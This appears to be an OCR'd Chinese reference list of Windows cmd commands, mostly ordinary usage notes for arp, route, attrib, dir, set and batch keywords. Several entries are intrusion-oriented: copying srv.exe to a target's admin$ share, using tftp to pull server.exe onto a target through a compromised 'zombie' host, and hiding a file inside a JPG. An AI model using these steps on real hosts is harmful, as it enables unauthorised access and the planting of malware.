 telnet ip 端口 远和登陆服务器,默认端口为23

open ip 连接到IP（属telnet登陆后的命令）

telnet 在本机上直接键入telnet 将进入本机的telnet

copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息

start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

mem 查看cpu使用情况

attrib 文件名(目录名) 查看某文件（目录）的属性

attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性

dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间

date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

set 指定环境变量名称=要指派给变量的字符 设置环境变量

set 显示当前所有的环境变量

set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量

pause 暂停批处理程序，并显示出：请按任意键继续....

if 在批处理程序中执行条件处理（更多说明见if命令及变量）

goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）

call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）

for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）

echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置

echo 信息 在屏幕上显示出信息

echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中

findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello

find 文件名 查找某文件
